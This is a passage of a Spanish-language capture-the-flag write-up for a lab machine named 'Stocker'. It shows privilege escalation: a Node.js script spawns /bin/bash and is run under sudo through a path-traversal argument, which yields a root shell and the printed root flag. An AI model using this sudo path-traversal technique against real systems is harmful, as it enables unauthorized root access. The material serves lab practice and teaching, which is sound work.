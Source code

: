 Vemos esto de primeras que esta dentro del directorio **scripts**

```bash
angoose@stocker:/$ ls -l /usr/local/scripts/
total 24
-rwxr-x--x 1 root root  245 Dec  6  2022 creds.js
-rwxr-x--x 1 root root 1625 Dec  6  2022 findAllOrders.js
-rwxr-x--x 1 root root  793 Dec  6  2022 findUnshippedOrders.js
drwxr-xr-x 2 root root 4096 Dec  6  2022 node_modules
-rwxr-x--x 1 root root 1337 Dec  6  2022 profitThisMonth.js
-rwxr-x--x 1 root root  623 Dec  6  2022 schema.js
angoose@stocker:/$ 
```

Podemos guiarnos con esto y hacer un script en **.js** 

<a href='https://www.stackhawk.com/blog/nodejs-command-injection-examples-and-prevention/' color='yellow'>👉nodejs-command-injection-examples-and-prevention👈</a>

Vamos a decirle que nos de una **bash**

```bash
angoose@stocker:/tmp$ nano pwned.js
angoose@stocker:/tmp$ cat pwned.js 
require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})
angoose@stocker:/tmp$ 
```

## Shell as root && root.txt 

Ahora lo vamos a correr y funciona

```bash
angoose@stocker:/tmp$ cd
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/pwned.js 
root@stocker:/home/angoose# whoami
root
root@stocker:/home/angoose# 
root@stocker:~# cat root.txt 
fd685a1caa10ad12c7f833390ebfde1d
root@stocker:~# 
```
